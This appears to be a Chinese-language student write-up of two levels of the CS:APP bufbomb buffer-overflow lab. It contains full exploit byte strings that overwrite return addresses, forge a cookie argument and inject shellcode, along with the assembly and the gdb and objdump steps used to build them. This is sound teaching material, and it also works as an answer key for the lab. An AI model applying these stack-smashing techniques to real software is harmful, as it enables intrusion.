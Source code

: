 ## 第1关：Sparkler

这一关和第0关类似，最大的区别是这次要跳到`fizz`这个函数有个参数，我们在输入里需要伪造出函数的参数。
代码里有两句是：
	
	mov 0x8(%ebp),%eax
	cmp 0x804c1e4,%eax
	
其中`0x8(%ebp)`就是函数的第一个参数，而`0x804c1e4`这个内存地址保存着cookie的值（通过阅读课程给的pdf中的伪代码推断出），然后这两个值期望是一样的，我们要做的就是伪造出一个函数参数，使它等于cookie值。所以只需在第一题的基础上，后面加4个字节0（伪造return address，这个值的大小无所谓，但必须占着空间），紧接着后面加上参数，即cookie的值即可。这一关答案为：

	00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 38 8d 04 08
    00 00 00 00 /* fake return address */
    d4 9f c2 50 /* the result of ./makecookie <yourname> */

## 第2关：Firecracker

这关比较有意思，在bang这个函数中，程序需要`0x804c1e4`和`0x804c1ec`存的值相同。`0x804c1e4`存的是cookie。

我们需要做的，是自己写一段代码，给`0x804c1ec`内存地址赋值，然后让程序跳转到我们写的代码处执行。怎么让程序跳转到我们嵌入的汇编代码？既然可以修改`return address`，那就让它跳到局部字符串的首地址，而局部字符串里存的就是我们的指令代码。

现在剩下的问题就是，编写攻击的汇编代码，然后把它转成二进制格式，作为bufbomb的输入。

第一步很简单，需要编写下面的代码Firecracker.s

	mov 0x804c1e4,%eax
    mov %eax,0x804c1ec	// *(0x804c1ec) = *(0x804c1e4)
    push $0x8048ceb		// function bang's address
    ret

第二步需要得到它对应的IA32二进制汇编代码，对它进行汇编：

	gcc -m32 -c Firecracker.s
	
生成Firecracker.o文件，然后反汇编生成二进制代码：

	objdump -d Firecracker.o
	
之后把这些代码复制到我们的答案里就可以了。最后需要把`return address`改为字符串的起始地址，虽然书里提到stack randomization的方法来防止bufferoverflow攻击，但这里提供的bufbomb似乎不支持，所以给我们的攻击提供了可能。在getbuf这个函数里打好断点，用gdb命令`p $ebp - 0x20`就可以查到字符串起始地址，在我这里是`0x556836e0`。

这一关的答案为
<pre><code>
a1 e4 c1 04 08  /* mov */
a3 ec c1 04 08  /* mov */
68 eb 8c 04 08  /* push jmp address*/
c3              /* ret */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 e0 36 68 55 /* using 0 and $ebp - 0x20 replace ebp and return address*/
</code></pre>
